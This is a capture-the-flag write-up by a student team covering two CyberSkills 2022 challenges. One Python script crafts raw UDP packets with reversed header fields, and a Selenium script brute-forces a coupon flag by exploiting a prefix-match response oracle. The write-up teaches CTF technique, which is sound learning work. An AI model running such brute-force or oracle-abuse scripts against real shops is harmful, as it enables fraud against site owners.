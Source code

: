 ## Cyberskills chambionships 2022

The CyberSkills chambionships were a ctf hosted by CyberSkills amongst 21 danish gymnasium teams.

Our team consisted of 5 people.

### Confused UDP

The challange was worth 25 points and the description is as following

```  
We made a UDP server that gives out free flags!  
However, the intern in charge of developing the  
server accidentally reversed the order of the  
UDP header fields.  

Get your free flag by sending the message “flag”  
via UDP to our server at confused-udp.hkn:1234.  

(Don’t worry about the checksum; we don’t verify  
those.)  

[header-format](https://nextcloud.ntp-event.dk:8443/s/GKo5SnbEEcFK7oD/download/confused-udp.txt)  
```  

Looking at the attached file we see the following contents

```

                  0      7 8     15 16    23 24    31  
                 +--------+--------+--------+--------+ 
                 |                 |                 | 
                 |    Checksum     |     Length      | 
                 +--------+--------+--------+--------+ 
                 |   Destination   |     Source      | 
                 |      Port       |      Port       | 
                 +--------+--------+--------+--------+ 
                 |                                     
                 |          data octets ...            
                 +---------------- ...                 

```

It describes the way a UDP packet is setup, sending checksum, length, dest port and at last the source port. The goal for the challange is to send those in a reversed order: source, dest, length and at last checksum.

The checksum does not need to be valid during the request.

To solve the problem we used the following python script with the socket module 

```py

import socket
import struct
import pprint

def udp_send(data, dest_addr, src_addr=('127.0.0.1', 35869)):
    #Generate pseudo header
    src_ip, dest_ip = ip2int(src_addr[0]), ip2int(dest_addr[0])
    src_ip = struct.pack('!4B', *src_ip)
    dest_ip = struct.pack('!4B', *dest_ip)

    zero = 0

    protocol = socket.IPPROTO_UDP 

    #Check the type of data
    try:
        data = data.encode()
    except AttributeError:
        pass

    src_port = src_addr[1]
    dest_port = dest_addr[1]

    data_len = len(data)
    
    udp_length = 8 + data_len

    checksum = 0
    pseudo_header = struct.pack('!BBH', zero, protocol, udp_length)
    pseudo_header = src_ip + dest_ip + pseudo_header
    udp_header = struct.pack('!4H', checksum, udp_length, dest_port, src_port)
    with socket.socket(socket.AF_INET, socket.SOCK_RAW, socket.IPPROTO_UDP) as s:
        s.sendto(udp_header + data, dest_addr)

def ip2int(ip_addr):
    if ip_addr == 'localhost':
        ip_addr = '127.0.0.1'
    return [int(x) for x in ip_addr.split('.')]

if __name__ == '__main__':
    ##              Dest                     Source
    udp_send("flag",("77.100.241.100", 1234), ("77.100.241.4", 1234))

```

Executing the script with root privilages lead to the following packet capture, here we are filtereing by the desitnation ip so we can remove all the noise genereated by the server, the challange was done on the web version of haaukins as wiregaurd will encrypt your packet so we are unable to read the response.

![udp1](assets/udp1.png)

Looking at the reciveing packet from the server we get the flag.

![udp2](assets/udp2.png)


### Leaky cupon responses

This challage was also worth 25 points and the description of the challange was:

```

Sometimes cupon codes follows a pattern, is this 
the case on aubergine.hkn, the flag is the cupon

```

When we first access the website linked we see a typical webstore

![cupon1](assets/cupon1.png)

After getting used to the webpages layout we navigated to the checkout area where we had access to the feild to submit a cupn

![cupon1](assets/cupon2.png)

Trying to submit a random string of charecters we get this response

![cupon4](assets/cupon4.png)

If we on the other hand try something like `HKN` as that is the flag format we get a partial match, the way it works is that it checks if the cupon starts with the submitted cupon, we can use this together with a python script to get the key

![cupon3](assets/cupon3.png)

Using selenium we setup an automated process to run though all the combinations untill we found the correct flag.

```py

from selenium import webdriver
from selenium.webdriver.common.keys import Keys
import time

browser = webdriver.Firefox()
browser.get('http://aubergine.hkn/cart')

letters = list("}-ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz1234567890")
currentCupon = "HKN{"

time.sleep(5)

doLoop = True
while doLoop:
        for ltr in letters:
                el = browser.find_element("xpath", "/html/body/section/div/div[2]/form[2]/div/input")
                print(f"Testing {currentCupon + ltr}...")
                el.send_keys(currentCupon + ltr)
                time.sleep(.5)
                el.send_keys(Keys.ENTER)
                time.sleep(1.5)

                text = browser.find_element("xpath", "/html/body/section/div/div[2]/div")
                if text.text == "Partial match on cupon" and ltr == "}":
                        doLoop = False
                        break
                elif text.text == "Partial match on cupon":
                        currentCupon += ltr
                        print(f"FOUND MATHC!, updated to {currentCupon}")
                        break

```

This would resolve the flag in about 20 minutes.
